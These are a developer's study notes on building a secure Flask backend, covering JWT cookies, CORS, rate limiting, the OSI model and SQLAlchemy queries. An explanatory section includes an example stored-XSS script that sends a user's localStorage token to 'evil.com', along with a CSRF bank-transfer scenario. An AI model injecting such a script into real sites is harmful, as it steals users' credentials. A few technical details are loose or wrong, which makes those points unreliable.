

# Some useful notes

- decoupling the common extensions getting used from the main backend is a good practice to avoid circular imports
- APIFlask is a good package having almost everything that you need so we'll consider it next time
- sometimes creating some tables for faster lookups in the db makes more sense
- cache whatever that you feel won't change that much whatever that you feel is computationally expensive 
- decorators have 3 layers, outer layer catching decorator inputs, middle layer catching the function getting decorator, and the inner layer is the wrapper changing the function getting, we're using decorators for rbac in this project
- using getattr() for objects in python and get() for dictionaries is safer than the .dot notation and the square bracket notation
- creating jwt tokens with role claims so when the user sends the request with the role claims then you can trust the user since the signature is signed by the server itself, expires_delta flag creates iat and eat in the signature, which verify_jwt_in_request uses to verify whether the token is valid or not
- db.session.flush is a concept is database that you just add the row in the database session of the current user and commit means you're actually writing the data on the disk  
- setup the python interpretator properly, use ruff for formatting in python
- sometimes security conflicts directly with the user experience (for example, enumeration risk for giving clarity to the user)
- we should make the backend safe from timing attacks by giving consistent timed responses, csrf tokens are necessary for form submissions, xss attacks can be avoided by backend safety (api not accepting anything like malicious injections on the server side) 
- code ke puraane version me we created a minimum limit of time jitna request chalna chahiye time.time() becomes now, and after time bhi time.time() and inn dono ka differencs is not the minimum time then time.sleep(min_time_delta - actual_delta_time)
- right now we're just using the cookie based method for authentication but for added security we can even use Oauth2 and double cookie based authentication for more security in case of CORS attacks
- Flask limitter is used for limiting and token bucket strategies and sliding windows strategies but for all of these we need a database storing the state of the user, for that we either use redis or some other db

### CORS 
- for safety and to check whether the current address/origin is allowed to make a request to the backend or not according (which is checked by the CORS headers sent by the server) the browser sends an OPTIONS request to the server before sending potentially unsafe requests like PUT POST and PATCH 
- if the OPTIONS request allow the origin to do requests to the backend then the actual request is sent to the server   

### Production servers 
- flask is just a wrapper for creating web servers, softwares like Gunicorn which are built on are actual web servers serving users in production where their only job is to create connection and do the OSI model tasks, the werkzeug web server of flask that is created when the user runs the flask application is a testing web server and the developer has to configure and create a web server first and then serve its WSGI application through it
- WSGI is a standard of creating applications which act as gateway to web servers, flask follows WSGI standard and serves the users through web servers like Gunicorn
- Gunicorn is smart and can create many web workers where web workers are allocated to serving different users according to the traffic

### OSI model 
- Layer 1: Physical Layer
The Core Concept: This layer is all about the hardware, cables, electricity, and radio waves. It doesn't understand what the data means; it only sees raw binary (1s and 0s).

What happens here: The raw electrical or wireless signals arrive from the network and hit your computer's Network Interface Card (NIC) or Wi-Fi antenna.

- Layer 2: Data Link Layer
The Core Concept: This layer takes those raw bits from Layer 1 and packs them into organized structures called Frames. It handles local communication.

What happens here: The layer looks at the hardware addresses—specifically the MAC Address—to make sure the data was actually meant for this specific device. Wi-Fi networks and Ethernet switches operate here to deliver the frames to the right machine in the local area.

- Layer 3: Network Layer
The Core Concept: This layer handles routing across the global internet. It deals with IP Addresses and moves data across different networks.

What happens here: The frames are stripped down to reveal Packets. This layer reads the source and destination IP addresses (IPv4 or IPv6). Protocols like ICMP live here, which is what you use when you "ping" a server to see if it’s alive and reachable.

- Layer 4: Transport Layer
The Core Concept: This layer is responsible for the actual transportation logic—how the data is chopped up, sent, and reassembled. It uses two main protocols:

TCP (Transmission Control Protocol): Highly reliable. It numbers every packet (1, 2, 3...) and forces the receiving machine to confirm it got them. If a packet is lost, TCP pauses and makes the sender re-send it.

UDP (User Datagram Protocol): "Fire-and-forget." It prioritizes raw speed over accuracy. It doesn't number packets or check if they arrived. This is used for live video streams or gaming, where a dropped packet is better than a lagging connection.

- Layer 5: Session Layer
The Core Concept: This layer acts like a manager that opens, maintains, and closes the communication channel (the session) between the two distinct computers.

What happens here: It performs the "digital handshake" to ensure the connection stays alive while data is actively transferring, and tears it down gracefully when the transfer is finished so bandwidth isn't wasted.

- Layer 6: Presentation Layer
The Core Concept: This layer acts as the translator. It ensures that the data is in a syntax or format that the application layer can actually read.

What happens here: It handles data compression and, crucially, Encryption/Decryption. When you connect securely via SSL/TLS, this layer takes the encrypted gibberish arriving over the wire, uses cryptographic keys, and turns it back into readable, standard data.

- Layer 7: Application Layer
The Core Concept: The window that interacts directly with the software applications you use (like Chrome, Outlook, or Discord).

What happens here: The fully decrypted, organized data is passed to specific protocols depending on what you are doing:

HTTP / HTTPS: For loading web pages.

FTP: For transferring files.

SMTP: For receiving emails.

WebRTC: For rendering real-time video chat frames.



### CSRF vs XSS and different scenarios around localStorage and cookie based authentication
No worries! Let’s clear up the confusion. You are actually asking the right questions, and your understanding is very close. 

Let's break down **exactly** how these two attacks work with simple, real-world examples.

---

1. How a hacker accesses `localStorage` (The XSS Attack)
You said: *"but the hacker can only get the localStorage of the same website no?"*

**Yes, you are 100% correct.** The hacker's website (`evil.com`) cannot touch your site’s `localStorage`. 

**BUT**, in an XSS attack, the hacker **injects their code into YOUR website**.

Example:
Imagine you have a blog site. A hacker writes a comment under an article:
```html
<script>
  // This malicious script is now saved in your database!
  fetch('https://evil.com/steal?token=' + localStorage.getItem('token'));
</script>
```
When a regular user visits that article page:
1. Their browser downloads the page, including the comment.
2. The browser sees the `<script>` tag and executes it.
3. Because the script is running **directly on your website**, the browser allows it to access your website's `localStorage` and send it to `evil.com`.

**Result:** The hacker stole the token, and they can now log into your account from their own computer.

---

2. How CSRF works (The Cookie Attack)
You said: *"in case of csrf the malicious website is tricking the genuine website to sends its cookies to the server"*

**Yes! But here is the critical part:** The hacker **never actually sees or steals** the cookie. They just trick your browser into *using* it.

Example:
1. You are logged into your bank account (`bank.com`), which uses standard cookies for authentication.
2. Without logging out, you open a new tab and visit a malicious site (`evil.com`).
3. Inside `evil.com`, there is a hidden button/script that sends a request to `bank.com/api/transfer-money?to=hacker`.
4. The browser sees a request going to `bank.com`. It says: *"Ah, I have a cookie stored for bank.com. Let me automatically attach it to this request!"*
5. The bank's server receives the request, sees your valid cookie, and processes the money transfer.

**Why this is safe with `localStorage`:**
If `evil.com` tries to trigger a request to `bank.com/api/transfer-money`:
* The browser **does not automatically attach** anything from `localStorage` to requests.
* `evil.com`'s JavaScript cannot read your bank's `localStorage` (blocked by browser rules).
* Therefore, the request arrives at the bank's server with **no credentials/tokens**, and the request is safely blocked.

### flask jwt extended

- tell this package to explicity look for jwts in the cookies or headers, depends on us
- `verify_jwt_in_request()` and the `@jwt_required()` decorator check for CSRF tokens when dealing with state-changing (unsafe) HTTP methods (like `POST`, `PUT`, `PATCH`, `DELETE`) if cookie-based token location is active.
### decorators
- decorators me the executions happens from top to bottom which means that the function below will wrap the main function and that outputted function will be decorated from the outermost decorator 

```
outerDecorator(innerDecorator(fn)), outerDecorator takes the innerDecorator function which is outputting the decorated function that it took inside
```

### JSON Serialization of Database Models (SQLAlchemy Rows)
- Standard Python types (strings, numbers, list, dict, booleans, `None`) are natively serialized to JSON by Flask and Python's built-in encoder.
- Database rows/objects returned by SQLAlchemy (e.g., `PPAUsers` model instances) are custom Python class objects and cannot be automatically serialized. Attempting to return them directly from an API endpoint will result in `TypeError: Object of type ModelName is not JSON serializable`.
- To avoid crashes, always serialize database models to standard Python dictionaries first before returning them to the client. This also gives you control over excluding sensitive fields (such as `password_hash`).

### Modern SQLAlchemy 2.0 / Flask-SQLAlchemy 3.x Query Syntax
- Instead of using the legacy `Model.query` pattern, use the modern execution-based query syntax.
- **Selecting all rows:**
  ```python
  users = db.session.scalars(db.select(PPAUsers)).all()
  ```
- **Filtering by key-value pairs (shortcut):**
  ```python
  user = db.session.scalars(db.select(PPAUsers).filter_by(email=email_val)).first()
  ```
- **Chaining logic using `db.or_` and `db.and_`:**
  To combine multiple filters:
  ```python
  # Fetch active users who are either admins OR superusers
  stmt = (
      db.select(User)
      .where(
          User.is_active == True,  # Implicitly ANDed with the OR block below
          db.or_(
              User.role == 'admin',
              User.role == 'superuser'
          )
      )
  )

  users = db.session.execute(stmt).scalars().all()
  ```

- **Difference between `scalar()` (singular) and `scalars()` (plural):**
  - `db.session.scalar(...)` directly executes the query and returns the single value/model instance itself (or `None`). **Do not call `.first()` or `.all()` on `.scalar()`**, as it will raise an `AttributeError: 'ModelName' object has no attribute 'first'`.
  - `db.session.scalars(...)` returns a results wrapper (`ScalarResult`). You **must** call `.first()` or `.all()` on `.scalars()` to extract the actual database records.
- **Role-based status updates (polymorphism):**
  When updating user statuses (like approving or blacklisting accounts), remember that user profiles are split across tables depending on their role. Ensure you check the user's role (e.g., `company_hr` vs. `student`) and update the respective child model status (`Company.status` or `Students.status`), rather than just returning a success message without database changes.